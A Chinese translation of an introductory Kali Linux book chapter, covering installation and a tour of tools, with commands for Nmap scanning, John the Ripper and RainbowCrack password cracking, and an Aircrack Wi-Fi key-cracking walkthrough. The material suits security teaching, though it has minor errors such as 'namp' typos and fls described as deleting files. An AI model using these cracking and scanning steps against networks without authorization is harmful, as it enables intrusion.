# 第一章：即时 Kali Linux

欢迎来到*Instant Kali Linux*。本书旨在为您提供设置和开始使用 Kali Linux 所需的所有信息。您将学习 Kali 的基础知识、其目录结构，以及如何使用其流行工具等。

该文档包含以下部分：

*那么 Kali Linux 是什么？*向我们介绍了 Kali，这是一个专为渗透测试和计算机取证而设计的基于 Linux 的操作系统。它是一些开源软件的集合，专业人士和专家在处理现实生活中的渗透测试场景时使用。

*安装*帮助我们学习如何轻松下载和安装 Kali Linux，以及如何设置我们自己的渗透测试实验室。

*快速开始-获取您的工具*向我们展示了如何使用 Kali 中可用的不同软件工具执行不同的任务。我们还将涵盖一些开始使用 Kali Linux 进行渗透测试之旅所必需的主题。

*您需要了解的前 5 个功能*将帮助您学习如何使用 Kali Linux 的最重要功能来执行不同的任务。在本节结束时，您将能够使用 Kali 的工具来执行以下操作：

+   使用 Nmap 进行扫描和信息收集

+   使用 Aircrack 破解无线网络

+   使用 Burp Suite 对 Web 应用程序进行渗透测试

+   开始使用 Metasploit 利用框架

+   使用 sqlmap 执行自动化的 SQL 注入攻击

+   使用 Kali Linux 进行数字取证

*您应该了解的人和地方*为您提供了许多有用的链接到项目页面和论坛，以及许多有帮助的文章、教程和博客。它还提供了 Kali Linux 超级贡献者和开源黑客的 Twitter 链接。

# 那么，什么是 Kali Linux？

在我们深入研究 Kali Linux 之前，我们需要了解什么是渗透测试。**渗透测试**或**渗透测试**是评估计算机系统或计算机网络安全实施的方法。渗透测试的理念是以特定的一组攻击向量来攻击计算机，以确定它是否能够在不发生故障的情况下抵御这些攻击。渗透测试中的不同攻击向量可以包括识别和利用各种应用软件和操作系统中已知的漏洞，评估连接网络的强度，提供评估报告等。渗透测试在计算机科学中有自己的研究领域。

在渗透测试方面，Kali Linux 是专业人士首选的操作系统。Kali 是一个先进的基于 Linux 的操作系统，是一套用于执行渗透测试、计算机取证和安全审计的开源软件集合。它的一些关键功能包括：

+   Kali Linux 包含超过 300 个渗透测试和评估工具

+   Kali 支持各种其他硬件，如无线接收器和 PCI 硬件

+   它提供了一个完整的 C、Python 和 Ruby 开发环境

+   它是可定制的和开源的

Kali 作为可下载的 ISO，可以用作实时或独立操作系统。让我们继续看看如何使用 Kali 设置您的渗透测试实验室。

# 安装

要开始安装，我们需要下载 Kali Linux。Kali Linux 有以下格式：

+   基于系统架构的 ISO 文件（x86 和 x64）

+   VMware 镜像

+   ARM 镜像

Kali 可以安装为现有操作系统的双引导，也可以设置为虚拟机。让我们首先开始双引导安装过程。通过三个简单的步骤，您可以将 Kali Linux 安装到系统上作为双引导选项。

## 步骤 1-下载和引导

在安装 Kali 之前，您需要检查是否具有以下所需元素：

+   至少 12 GB 的硬件空间

+   至少 1 GB 的 RAM 以获得最佳性能

+   可引导设备，如光驱或 USB

一旦您检查了要求，您可以从其官方网站[`www.kali.org/downloads`](http://www.kali.org/downloads)下载可引导的 ISO。

您可能会被要求注册您的姓名和电子邮件。下载页面将有一些选项可供选择，例如窗口管理器和系统架构。根据您的系统要求（架构等）选择值。


下载完成后，我们将不得不将其刻录到光盘或 USB。光盘/USB 应该被制作成可引导的，以便系统可以从中加载设置。

## 步骤 2-设置双引导

一旦我们的可引导媒体准备好，我们就可以重新启动系统并从光盘/USB 引导。我们将看到一个类似以下的屏幕：


我们将从选择**实时引导**选项开始。操作系统将开始加载，在几分钟内，我们将首次看到 Kali 桌面。

桌面加载后，导航到**应用程序** | **系统工具** | **管理** | **GParted 分区编辑器**。

这将呈现当前操作系统分区的 GUI 表示。仔细调整它以留出足够的空间（至少 12 GB）用于 Kali 安装。

一旦在硬盘上调整了分区大小，请确保选择**应用所有操作**选项。退出 GParted 并重新启动 Kali Linux。

## 步骤 3-开始安装

一旦回到主屏幕，选择**图形安装**。安装的最初几个屏幕将要求您选择语言、位置、键盘等。在设置根密码时需要小心。Kali 的默认根密码是`toor`。

### 注意

**仅双引导**

完成后，下一个重要的步骤是选择要安装操作系统的分区。我们将不得不使用刚才使用 GParted 创建的相同未分配空间。

一旦选择了分区，Kali 将接管并安装操作系统。这个过程需要一些时间来完成。安装完成后，系统启动屏幕现在将给您在 Kali Linux 或另一个操作系统之间选择引导的选项，这称为（双引导）配置。

### 安装 Kali 作为虚拟机

在虚拟化软件上设置 Kali 很容易。Kali 官方提供了一个可以从其官方网站([`www.kali.org/downloads`](http://www.kali.org/downloads))下载的 VMware 映像。当它开始工作时，可以在 VMware 播放器中导入。

要使用 Virtual Box 设置 Kali Linux，我们需要之前下载的相同 ISO 文件和最近的 Virtual Box 设置。

要开始安装，创建一个新的虚拟机并设置所需的硬盘空间和 RAM。



创建完机器后，启动它。第一次启动将提示我们选择磁盘。选择 Kali ISO 并开始安装。其余步骤与双引导安装相同。

安装完成并加载桌面后，我们可以安装 VirtualBox 增强功能。按照以下步骤安装增强功能：

1.  将文件复制到以下位置：

```
cp /media/cd-rom/VBoxLinuxAdditions.run /root/

```

1.  设置文件权限如下：

```
chmod 755 /root/VBoxLinuxAdditions.run

```

1.  执行以下命令：

```
cd /root
./VBoxLinuxAdditions.run

```

### 更新 Kali Linux

一旦我们完成安装过程，最后一步是使用最新的补丁和版本更新操作系统。这将确保我们使用的是最新软件包。要更新操作系统，请启动终端并传递以下命令：

```
apt-get update

```

## 就是这样

到此时，您应该已经安装了 Kali Linux，并且可以自由玩耍并发现更多有关它的信息。

# 快速开始-获取您的工具

让我们深入了解 Kali Linux 的世界，并了解其最流行工具的基本功能。我们将首先看一下 Kali 使用的目录结构。

## 了解内存布局

Kali 遵循类似于基于 Ubuntu 的 Linux 的目录结构。一些重要的位置包括以下内容：

+   `/etc/`：包含已安装工具的配置文件

+   `/opt/`：包含 Metasploit 及其相关模块

+   `/sys/`：包含外部硬件和接口的配置文件

+   `/root/`：这是 root 用户目录

+   `/lib/`：包含依赖于操作系统的库

大多数用于渗透测试和评估的工具和软件都可以从桌面上的 **应用程序** 菜单中找到。该列表根据工具的可用性进行了逻辑排列。要访问它们，请浏览 **应用程序** | **Kali Linux**。

## 使用 Kali Linux 进行信息收集和嗅探

Kali Linux 包含一套独特的工具，可以帮助信息收集的过程。Nmap（网络端口映射器）、DNSmap 和 Trace 是一些重要的工具。让我们来介绍一些特定类别的工具。

### DNSmap 分析

**域名系统**（**DNS**）是一个分层分布式的命名系统，用于连接到互联网的服务器/资源。域名用于访问特定的服务。例如，[www.packtpub.com](http://www.packtpub.com) 用于访问 Packt Publishing 托管的 HTTP 服务器。让我们来看看 Kali 提供的 DNSmap 工具。

DNSmap 是一个用于发现与给定域关联的所有子域的工具。在终端上输入以下命令将显示 [www.rediff.com](http://www.rediff.com) 的完整 DNS 映射：

```
root@kali:~#dnsmap rediff.com

```


### 网络扫描器

网络扫描器用于枚举公共或私有网络，并获取有关其的信息。

**Nmap** 是迄今为止最流行的信息收集工具。它是一个强大的工具，用于扫描计算机或完整网络的开放端口以及在这些端口上运行的服务。这些信息对专业审计人员和渗透测试人员来说可能是有用的，以便针对某些服务来破坏目标。输入以下命令将列出各种扫描选项：

```
root@kali:~#namp –h

```

可以使用以下命令启动简单的 UDP 扫描：

```
root@kali:~#namp –sU 192.168.5.0-255

```

### 检测活动主机

**Fping** 是一个常用的工具，用于确定给定主机是否连接到网络。

```
root@kali:~#fping google.com
google.com is live

```

### SSL 分析

**SSLScan** 是一个快速的 SSL 端口扫描工具，它连接到 SSL 端口，确定支持的密码和 SSL 协议，并返回 SSL 证书。

### 网络嗅探

**Dsniff** 是一组可以执行各种嗅探任务的工具。这些工具通过被动监视网络流量来获取有趣的数据，如密码、密钥传输和电子邮件。该套件中的一些工具包括 urlsnarf、WebSpy、mailsnarf 等。

**Netsniff** 是一个专为 Linux 平台设计的快速而强大的网络工具包。它可用于网络开发分析、调试、审计等。netsniff-ng 是基于数据包 mmap(2) 机制的快速网络分析器。它可以将 `.pcap` 文件记录到磁盘上，重放它们，并进行离线和在线分析。

## 使用漏洞评估工具

漏洞评估工具在渗透测试中扮演着非常重要的角色。这些工具帮助渗透测试人员分析当前系统中的漏洞和弱点。根据需求，漏洞评估可以针对各种服务和软件进行。OpenVAS 是一个专门设计用于挖掘各种场景下漏洞的开源漏洞扫描框架。

要开始使用 OpenVAS，请浏览到**应用程序** | **Kali Linux** | **漏洞分析** | **OpenVAS**。

如果您是第一次启动它，请运行`openvas-setup`以更新软件并启动所有必需的插件和依赖项。


下一步将是向 OpenVAS 添加新用户。将以下命令传递给终端：

```
root@kali:~#openvas-adduser

```

您可以通过按下*Ctrl* + *D*来跳过**规则创建过程**。我们可以使用以下命令定期更新框架的新签名和依赖项：

```
root@kali:~#openvas-nvt-sync

```

现在，我们已经准备好加载框架并开始我们的评估任务。浏览到**应用程序** | **Kali Linux** | **漏洞分析** | **OpenVAS** | **openvas-gsd**。这将启动 GUI 框架并提示输入登录详细信息。输入您之前设置的凭据并提供本地服务器地址。


登录后，您可以开始扫描过程。要开始第一次扫描，请导航到**任务** | **新建**。填写任务名称和所需的扫描模式，如下面的屏幕截图所示：


创建任务后，您会注意到任务列在界面底部。单击**开始**按钮开始扫描。

## Kali 中的 Web 应用程序渗透测试

Web 应用程序现在是当今世界互联网的重要组成部分。保持它们的安全是网站管理员的首要关注点。从头开始构建 Web 应用程序可能是一项繁琐的任务，并且代码中可能存在小错误，这可能导致安全漏洞。这就是 Web 应用程序的作用，它可以帮助您保护应用程序的安全。Web 应用程序渗透测试可以在前端界面、数据库和 Web 服务器等各个方面实施。让我们利用 Kali 的一些重要工具的力量，这些工具在 Web 应用程序渗透测试期间可能会有所帮助。

### WebScarab 代理

**WebScarab**是一个 HTTP 和 HTTPS 代理拦截器框架，允许用户在将请求发送到服务器之前审查和修改浏览器创建的请求。同样，可以在将响应反映在浏览器之前修改从服务器接收的响应。新版本的 WebScarab 具有许多更高级的功能，如 XSS/CSRF 检测、会话 ID 分析和模糊测试。按照以下三个步骤开始使用 WebScarab：

1.  要启动 WebScarab，请浏览到**应用程序** | **Kali Linux** | **Web 应用程序** | **Web 应用程序代理** | **WebScarab**。

1.  应用程序加载后，您将需要更改浏览器的网络设置。将 IP 的代理设置为`127.0.0.1`，**端口**设置为**8008**：

1.  保存设置并返回到 WebScarab GUI。点击**代理**选项卡并勾选**拦截请求**。确保左侧面板上都突出显示了**GET**和**POST**请求。要拦截响应，勾选**拦截响应**以开始审查来自服务器的响应。

### 使用 sqlninja 攻击数据库

sqlninja 是一种常用工具，用于测试 Microsoft SQL 服务器中的 SQL 注入漏洞。数据库是 Web 应用程序的一个组成部分，因此即使其中有一个缺陷，也可能导致大量信息泄露。让我们看看如何使用 sqlninja 进行数据库渗透测试。

要启动 SQL ninja，请浏览到**应用程序** | **Kali Linux** | **Web 应用程序** | **数据库利用** | **sqlninja**。

这将启动带有 sqlninja 参数的终端窗口。要查找的重要参数是`mode`参数或`-m`参数：



`-m`参数指定我们要在目标数据库上执行的操作类型。让我们传递一个基本命令并分析输出：

```
root@kali:~#sqlninja –m test
Sqlninja rel. 0.2.3-r1
Copyright (C) 2006-2008 icesurfer 
[-] sqlninja.conf does not exist. You want to create it now ? [y/n]

```

这将提示您设置配置文件（`sqlninja.conf`）。您可以传递相应的值并创建配置文件。完成后，您就可以进行数据库渗透测试了。

### Websploit 框架

Websploit 是一个开源框架，旨在对 Web 应用程序进行漏洞分析和渗透测试。它非常类似于 Metasploit，并整合了许多插件以添加功能。

要启动 Websploit，请浏览到**应用程序** | **Kali Linux** | **Web 应用程序** | **Web 应用程序模糊器** | **Websploit**。


我们可以通过更新框架开始。在终端传递更新命令将开始更新过程如下：

```
wsf>update
[*]Updating Websploit framework, Please Wait…

```

更新完成后，您可以通过传递以下命令来查看可用的模块：

```
wsf>show modules

```

让我们针对[www.target.com](http://www.target.com)启动一个简单的目录扫描器模块，如下所示：

```
wsf>use web/dir_scanner
wsf:Dir_Scanner>show options
wsf:Dir_Scanner>set TARGET www.target.com
wsf:Dir_Scanner>run

```


运行命令后，Websploit 将启动攻击模块并显示结果。同样，我们可以根据场景的要求使用其他模块。

## 破解密码

密码是计算机系统中实施的最常见的身份验证技术。破解它们可以直接进入系统，并为您提供所需的特权升级。Kali 配备了几个工具，可以用于离线或在线破解密码。让我们看一下 Kali 中一些重要的破解密码工具，并讨论它们的操作方式。

### John the Ripper

**John the Ripper**是一个免费且快速的密码破解工具，可以有效地用于破解弱 Unix 密码、Windows LM Hashes、DES、Kerberos 等等加密方法。

使用 John 破解密码可以通过暴力破解技术完成，其中加密密码可以放在文件中。或者，我们还可以提供一个密码列表，对其应用暴力破解技术以匹配密码。

要启动 John the Ripper，请浏览到**应用程序** | **Kali Linux** | **密码攻击** | **离线攻击** | **John**。


要对密码文件发起暴力攻击，可以传递以下命令：

```
root@kali:~#john pwd

```

这里`pwd`是密码文件的名称。

要检索破解的密码，请传递以下命令：

```
root@kali:~#john –show pwd

```

您还可以提供一个存储密码的单词列表：

```
root@kali:~#john --wordlist=password.lst --rules pwd

```

### 使用 RainbowCrack

**RainbowCrack**比 John 更快的密码破解工具。RainbowCrack 基于使用彩虹表的概念，这是几乎每个可能密码的预生成哈希的巨大集合。用户输入的哈希作为 RainbowCrack 的输入，并且它匹配彩虹表的哈希，直到找到匹配。这种技术被证明比暴力破解更有效，耗时更少。

要启动 RainbowCrack，请浏览到**应用程序** | **Kali Linux** | **密码攻击** | **离线攻击** | **RainbowCrack**。



一个示例命令如下：

```
rcrack *.rt –l hash.txt

```

此命令启动 RainbowCrack，并搜索带有通配符搜索（`*`）的彩虹表；要破解的哈希从`hash.txt`文件中选取。

## 针对无线网络进行定位

无线网络是连接计算机的主要手段之一。这为该领域的安全测试创造了广阔的空间。我们在无线网络上进行的渗透测试与有线网络类似。唯一的区别在于设备和协议的连接方式。Kali 配备了许多有用的工具，可以简化对无线网络的测试和评估过程。让我们快速看一下其中一些。

### 使用 Kismet

Kismet 是一个无线网络探测器/嗅探器，可用于跟踪无线通信介质上传输的数据。Kismet 通过被动收集数据包和检测网络来识别网络，这使其能够检测隐藏网络和通过数据流量检测非信标网络的存在。

Kismet 可以从**应用程序** | **Kali Linux** | **无线攻击** | **无线工具** | **Kismet**中启动。


终端加载后，输入`kismet`并按*Enter*。您将会看到一个介绍性的屏幕。回答问题以启动服务器。如果您是第一次运行它，它会要求您选择一个接口。


添加您的无线接口（默认为`wlan0`）并选择**添加**，如下面的屏幕截图所示：


一旦接口被添加，Kismet 将开始报告可达的无线网络。您可以选择其中任何一个开始捕获其上流动的数据。


这是一个关于如何使用 Kismet 来识别无线网络并被动地嗅探其数据的快速教程。

### Fern WIFI Cracker

Fern 是一个基于 GUI 的 Wi-Fi 审计工具，能够破解和恢复 WEP/WPA/WPS 密钥，并在无线或以太网网络上运行其他基于网络的攻击。该工具是使用 Python 语言开发的。要使用 Fern，您应该预先安装一些工具，如 Aircrack、Python Scrapy 和 Reaver。Kali 已经预装了这些工具，因此您无需担心安装它们。Fern 的一些重要特性包括：

+   使用分段、Chop-Chop、Caffe-Latte、Hirte、ARP 请求重放或 WPS 攻击进行 WEP 破解

+   使用字典或基于 WPS 的攻击进行 WPA/WPA2 破解

+   成功破解后将密钥自动保存在数据库中

+   自动接入点攻击系统

+   会话劫持（被动和以太网模式）

+   用于地理定位跟踪的接入点 MAC 地址

要启动 Fern，请浏览到**应用程序** | **Kali Linux** | **无线攻击** | **无线工具** | **Fern WIFI Cracker**。

一旦 GUI 加载完成，从下拉菜单中选择您的接口。几秒钟后，GUI 将开始反映附近的 Wi-Fi 网络，按其密码安全性（WPA、WEP 等）进行分类。


一旦扫描设置弹出窗口出现，点击**确定**继续。几秒钟后，攻击将被启动，任何成功的破解都将被 Fern 报告。

### 蓝牙审计

Kali 还提供了一个选项来审计蓝牙网络模式。蓝牙是移动网络和几乎所有支持蓝牙的现代设备中最常用的数据传输方式。因此，审计蓝牙对于网络管理员来说可能至关重要。我们将简要介绍 BlueRanger。

#### BlueRanger

**BlueRanger**是一个简单的 Bash 脚本，它使用**链路质量**来定位蓝牙无线电设备。它发送 L2CAP（蓝牙）ping 来在蓝牙接口之间创建连接，因为大多数设备允许进行未经身份验证或授权的 ping。

要开始使用 BlueRanger，请浏览到**应用程序** | **Kali Linux** | **无线攻击** | **蓝牙工具** | **Blueranger**。


要启动对**蓝牙网络 PAS**的枚举，请在终端上输入如前图的`SYNOPSIS`中所示的命令。一个示例命令可以是：

```
root@kali:~#blueranger.sh hci0 6C:D4:8A:B0:20:AC

```

一旦命令被执行，Bash 脚本将开始对范围内的设备进行 ping。每次 ping 后屏幕会刷新。它会报告附近的设备、ping 计数、接近程度变化、范围等等。

## 利用框架和工具

利用框架是渗透测试人员的核心。它赋予他们使用单个框架轻松管理其评估的能力。Kali Linux 将这些框架集成到其核心中，以确保它们以最佳方式执行。在本节中，我们将介绍 Kali Linux 中存在的一些重要利用框架。

### 浏览器利用框架

**浏览器利用框架**（**BeEF**）是一个特别设计用于审计 Web 浏览器的流行开源框架。通过**应用程序** | **Kali Linux** | **利用工具** | **BeEF 利用框架** | **BeEF**启动 BeEF。这将在浏览器中启动以下位置：

```
http://127.0.0.1:3000/ui/panel/
```

在下一步中，您将被要求进行身份验证。默认用户名和密码分别为 beef 和 beef。

Kali 的初始版本没有安装 BeEF。在这种情况下，使用以下命令获取 BeEF 的最新副本：

```
root@kali:/# apt-get update
root@kali:/# apt-get install beef-xss

```

安装完成后，我们可以切换到其目录，并使用以下命令启动 BeEF：

```
 root@kali:/# cd /usr/share/beef-xss
 root@kali:/# ./beef

```

欢迎页面加载后，您可以通过单击**演示**链接开始官方**入门**教程。



BeEF 的左侧面板将反映插件已连接并准备就绪的浏览器。您会注意到顶部有不同的选项卡。让我们快速看一下它们。

+   **入门**：这是我们刚刚在前面段落中阅读的同样欢迎页面。

+   **日志**：显示不同浏览器的操作。

+   **当前浏览器**：这是查找的主要选项卡。它包含有关当前工作浏览器的详细信息。它包含六个不同的子选项卡，附加信息和操作。

这些子选项卡如下：

+   **详细信息**：它代表浏览器的每个细节：其插件，连接的页面等。

+   **日志**：它代表浏览器的操作日志。

+   **命令**：这包含了我们可以针对浏览器执行的不同模块。

+   **骑手**：此选项卡允许我们代表连接的浏览器提交任意的 HTTP 请求。

+   **XssRays**：这查找连接的浏览器上 XSS 攻击的任何可能性。

我们简要地了解了 BeEF 的基本信息。您可以开始使用 BeEF 针对自己的 Web 应用程序进行操作，或者您可以从 BeEF 中添加的演示课程开始，以获取有关该框架的更多知识。

### 社会工程师工具包

**社会工程师工具包**（**SET**）是一个流行的命令行工具，可以构建攻击场景以针对特定用户。它根据其自定义设置选项构建场景，并允许攻击者利用其力量并构建攻击向量。攻击向量的成功完全取决于人为因素；因此，它被命名为社会工程师工具包。要启动 SET，请导航至**应用程序** | **Kali Linux** | **利用工具** | **社会工程工具包** | **se-toolkit**。


您可以从选项菜单中选择首选的攻击模式来构建攻击。让我们选择`1`。

在这里，您将找到多个攻击选项可供选择。让我们选择**鱼叉式网络钓鱼攻击向量**，然后选择**创建社会工程模板**。此选项使您能够构建自己的 SET 模板以发动攻击。


此外，您还可以启动基于网站的攻击向量，Java 小程序攻击等。SET 是一个非常有用和友好的工具，可以提供各种渗透测试选项。SET 还利用 Metasploit 框架的力量来构建有效载荷，meterpreter 连接，shell 等。

## 使用取证工具

Kali 拥有大量免费的法医工具，可用于调查感染的系统。法医在调查分析中扮演着与渗透测试完全不同的角色。在法医分析中，我们试图分析突破的根本原因，而在渗透测试中，我们执行实际的突破过程。让我们快速浏览一下 Kali Linux 中提供的一些重要法医工具。

### 尸检法医浏览器

尸检是法医分析师非常有用的工具。它是一个基于 GUI 的工具，以时间线方式生成操作系统上发生的事件的详细报告。这使得将一个事件与另一个事件联系起来变得更容易。这是一个快速而强大的工具，可用于调查系统中的任何恶意行为。它的一些常见功能包括以下内容：

+   时间线分析

+   文件系统分析

+   从各种浏览器中提取历史记录、Cookie 和书签

+   哈希过滤

可以通过导航到**应用程序** | **Kali Linux** | **法医** | **数字法医** | **尸检**来启动尸检。

您可以通过在浏览器中定位`localhost:9999/autopsy/` URL 来启动 GUI。


加载 GUI 后，您可以通过单击**新建案例**来建立一个新案例。打开一个新窗口，如下图所示：


填写初始细节，如**案例名称**，**描述**和**调查员姓名**。在最后阶段，您将被要求添加一个图像。提供要调查的图像的完整路径以及图像类型和导入方法。现在您已经准备好开始调查您的目标了。

在 GUI 的左侧窗格中列出了正在调查的图像的大部分属性。**图像**节点反映了目录结构。**视图**节点反映了文件类型的数据。**结果**节点显示了**摄入**模块的输出。**摄入**模块按优先顺序分析多个文件。这是您可以通过整个系统来查明系统中的时间线变化并识别任何潜在威胁的方法。在我们不知道感染根源的情况下，尸检是一个非常方便的工具。

### Sleuth Kit

**Sleuth Kit (TSK)**是一组库，可用于调查数字法医磁盘映像。Sleuth Kit 的库可以与其他法医工具合并，以便它们可以共同进行法医工作。尸检是 Sleuth Kit 的图形版本。该工具包的一些重要工具如下：

+   `icat`：此工具将显示图像中文件的内容

+   `blkls`：此工具用于提取未分配的磁盘空间

+   `fsstat`：此工具用于确定信息的片段位置

+   `fls`：此工具用于从图像中删除文件

这是该工具包中的一些有用工具，可在各种情况下用于进行法医调查。

这是一些重要工具的概述，可在各种情况下用于执行从信息收集到法医调查的不同任务。Kali 拥有超过 300 个工具。涵盖所有工具超出了本书的范围，但对本节列出的工具有很好的理解可以在任何情况下提供很大的帮助。在本书的下一节中，我们将详细和详细地介绍一些工具。

# 您需要了解的前 5 个功能

当您开始使用 Kali Linux 时，您会意识到有很多事情可以用它来做。本节将教您关于 Kali 中最常见的任务和功能。

## 使用 Nmap 进行信息收集

信息收集是渗透测试的第一步。在这个阶段，我们试图尽可能多地收集有关我们目标的信息。Nmap 是扫描和收集信息的最受欢迎的工具。可以通过打开控制台并传递`nmap`命令来启动 Nmap。这将显示可以与 Nmap 一起使用的不同参数和范围的列表。让我们使用其中的一些。

+   要扫描单个 IP，请使用以下命令：

```
root@kali:~#nmap 192.168.56.1

```

此命令的输出显示在以下截图中：


+   要扫描网络中一系列 IP 地址，请使用以下命令：

```
root@kali:~#nmap 192.168.56.1-255

```

+   要在目标上扫描特定端口号，请使用以下命令：

```
root@kali:~#nmap 192.168.56.1 –p 80

```

+   要扫描整个子网上的一系列端口，以获取特定端口范围，请使用以下命令：

```
root@kali:~#nmap 192.168.56.0/24 –p 1-1000

```

+   要从扫描中排除特定主机或多个主机，请使用以下命令：

```
nmap 192.168.56.0/24 --exclude 192.168.1.5
nmap 192.168.56.0/24 --exclude 192.168.1.5,192.168.1.254

```

+   执行快速扫描，请使用以下命令：

```
nmap -F 192.168.56.1

```

+   要扫描操作系统及其版本的信息，请使用以下命令：

```
nmap -A 192.168.56.1
nmap -v -A 192.168.56.1

```

+   要检查目标网络/IP 是否设置了防火墙，请使用以下命令：

```
nmap -sA 192.168.1.254

```

+   在防火墙的情况下，Nmap 有一个特定的参数来扫描目标，可以使用以下命令来执行：

```
nmap -PN 192.168.1.1

```

+   要增加详细信息并查看是否所有数据包都已发送/接收，请使用以下命令：

```
nmap --packet-trace 192.168.1.1

```

+   要检测远程目标上运行的不同服务，请使用以下命令：

```
nmap –sV 192.168.56.1

```

+   要使用 TCP ACK(PA)或 TCP SYN(PS)数据包扫描目标，请使用以下命令：

```
nmap –PA 192.168.56.1
nmap –PS 192.168.56.1

```

+   要启动隐秘扫描，我们将使用以下命令进行 TCP SYN 扫描：

```
nmap –sS 192.168.56.1

```

+   为了找出远程目标上运行的各种 TCP 服务，我们使用以下命令进行 TCP 连接扫描：

```
nmap –sT 192.168.56.1

```

+   对于 UDP 扫描，我们使用以下`nmap`命令：

```
nmap –sU 192.168.56.1

```

+   所有这些扫描结果都可以直接保存到文本文件中，使用以下命令：

```
nmap –sU 192.168.56.1 > scan.txt

```

这些是一些在信息收集和扫描时可能有用的重要命令。Nmap 提供了将这些不同的扫描参数链接到单个扫描中的功能，以使过程更加先进和复杂。

## 使用 Aircrack 破解无线密码

在本节中，我们将介绍如何使用 Kali Linux 破解无线密码的详细信息。我们已经在*Fern WIFI Cracker*部分介绍了 Fern WIFI 破解器的使用；我们看到这是一个自动破解密码的工具，但其范围有限。在这里，我们将手动执行每个步骤，以查看如何破解 Wi-Fi 密码。在开始之前，我们必须确保我们的无线网卡支持数据包注入。您可以在 Google 上搜索您的 Wi-Fi 硬件，以查看它是否支持数据包注入。有几种基于 USB 的无线网卡可以执行此任务。

按照以下步骤开始破解 Wi-Fi 密码：

1.  识别无线网络。

我们将首先使用`iwconfig`命令来检查我们的无线网络接口。



无线网卡默认将显示为`wlan0`。如果无线网卡未启用，请使用以下命令：

```
root@kali:~#Ifconfig wlan0 up

```

1.  开始扫描。

要扫描附近的 Wi-Fi 网络，请传递以下命令并分析输出：

```
root@kali:~#iwlist wlan0 scan

```

输出将列出几个在范围内的 Wi-Fi 网络的详细信息，例如它们的 ESSID 名称、MAC 地址和加密密钥状态。



您现在可以从列表中选择您的目标，并记下其详细信息，例如信道号和 MAC 地址，这些将在后续步骤中使用。

1.  设置监控模式。

在这一步中，我们将配置我们的无线网卡为**监控**模式。这将使网卡能够检查空中流动的所有数据包。为此，我们将使用`airmon-ng`。这是一个命令行工具，用于将无线网卡设置为监控模式。我们将传递以下命令：

```
root@kali:~#airmon-ng start wlan0

```


现在，要验证无线卡是否处于监视模式下活动，请使用`ifconfig`命令。您将注意到一个名为`mon0`的新接口。这是我们的监控接口。

1.  捕获数据包。

现在我们已经准备好开始捕获流经我们目标网络的数据包。我们将使用`airodump-ng`。命令格式如下：

```
airodump-ng -c (channel) -w (file name) -–bssid (bssid) mon0

```

一旦您传递了相应的参数详细信息，您将注意到无线卡将开始从我们的目标网络捕获数据包。


让它运行几分钟，除非它已经捕获了超过 10,000 个信标。

1.  破解密码。

一旦您关闭了数据包捕获过程，您将注意到在根目录中创建了一些新文件。重要的文件是`*.cap`文件（`crack-01.cap`），将用于破解密码。接下来，我们将使用`aircrack-ng`和一个字典来开始破解密码。可以使用的常见字典是`dark0de.lst`；可以从[`www.filecrop.com/darkc0de.lst.html`](http://www.filecrop.com/darkc0de.lst.html)下载。

一旦字典下载完成，您可以传递以下命令：

```
root@kali:~#aircrack-ng crack-01.cap –w dark0de.lst

```



在几分钟后，如果找到了字典匹配，它将在终端上反映出来。这种攻击的成功取决于密码强度和用于攻击的字典。在启动`aircrack-ng`之前，建议尽可能捕获尽可能多的数据包。

## 使用 Burp Suite 进行 Web 应用程序渗透测试

Burp Suite 是另一个广受欢迎的工具，被广泛用于审计 Web 应用程序。它有免费和商业版本，功能有所不同。Kali Linux 预装了 Burp Suite 的免费版本。可以从**应用程序** | **Kali Linux** | **Web 应用程序** | **Web 应用程序模糊器** | **Burp Suite**启动它。

Burp Suite 的一些关键功能包括以下内容：

+   一个拦截代理，可以分析浏览器发送的不同请求/响应

+   一个应用程序感知的蜘蛛，用于爬行应用程序的内容

+   用于识别弱点和漏洞的 Web 应用程序扫描器

+   创建和保存工作空间

+   通过集成自定义插件来扩展工具的可扩展性

Burp Suite 是一个集成了多个工具的组合，它们相互配合工作。让我们了解一些 Burp Suite 的常见功能。

### Burp 代理

Burp 代理是一个拦截代理，读取通过浏览器发送的所有请求/响应。它充当**中间人**攻击向量。要开始使用 Burp 代理，我们将不得不更改浏览器的网络设置，以通过代理绕过流量。启动浏览器的网络设置，并将代理地址设置为`localhost`，端口设置为**8000**。



现在浏览器已经准备好通过 Burp 代理进行 HTTP 通信。您可以通过选择**代理**选项卡并选择**选项**子选项卡来查看代理首选项。拦截将反映通过浏览器捕获的任何 HTTP 通信。**历史**选项卡显示了捕获通信的时间线。


您可以从**选项**选项卡更改代理首选项。现在让我们讨论 Burp 蜘蛛的工作方式。

### Burp 蜘蛛

Burp Spider 是一个爬行工具，可以找到与网站链接的每个网页。它从主页或输入的任何页面开始爬行，并通过跟随与该页面连接的超链接来爬行。最终以树形表示完整的链。Burp Spider 可以从**选项**选项卡配置。您可以选择爬行器要遍历的最大深度、要爬行的 HTML 字段、应用程序登录、线程计数等。

### Burp Intruder

Burp Intruder 是一个强大的工具，可以自动化定制的攻击，针对 Web 应用程序进行启动。它允许用户构建攻击向量的模板，并以自动化的方式执行操作。

Burp Intruder 有四个重要的选项卡，分别是**目标**、**位置**、**有效载荷**和**选项**。



**目标**选项卡用于选择应用程序的目标地址。对于本地测试，可以设置为`127.0.0.1`。

**位置**选项卡用于选择攻击模板应用的位置。它可以是请求、表单字段、参数等。有各种类型的攻击模板，如狙击手攻击、破门而入攻击、叉子攻击和集束炸弹。

**有效载荷**选项卡用于设置需要在所选位置应用的攻击向量。例如，可以通过将登录表单作为位置并选择注入字符串作为有效载荷来应用 SQL 注入攻击。

**选项**选项卡可用于应用其他设置，如线程计数、重试和存储结果。

这是一个快速教程，涵盖了 Burp Suite 的一些基本特点。强烈建议针对任何 Web 应用程序实际实施该工具，以进一步了解其功能。

## Metasploit 利用框架

Metasploit 是一个由*H.D. Moore*于 2003 年创建的免费、开源的渗透测试框架，后来被 Rapid7 收购。框架的当前稳定版本是使用 Ruby 语言编写的。它拥有世界上最大的已测试利用数据库，每年下载量超过一百万次。它也是迄今为止使用 Ruby 构建的最复杂的项目之一。它以免费和商业许可证产品形式提供。

Metasploit 基于模块化架构，所有模块和脚本都以模块的形式集成到框架中。这使得很容易将任何新的自定义模块与框架集成，并利用其功能。

### Metasploit 的特点

以下是 Metasploit 的一些特点：

+   **框架基础**：Metasploit 具有丰富的基础，提供了在渗透测试期间所需的大量功能。其基本功能包括日志记录、配置、数据库存储、meterpreter 脚本等。

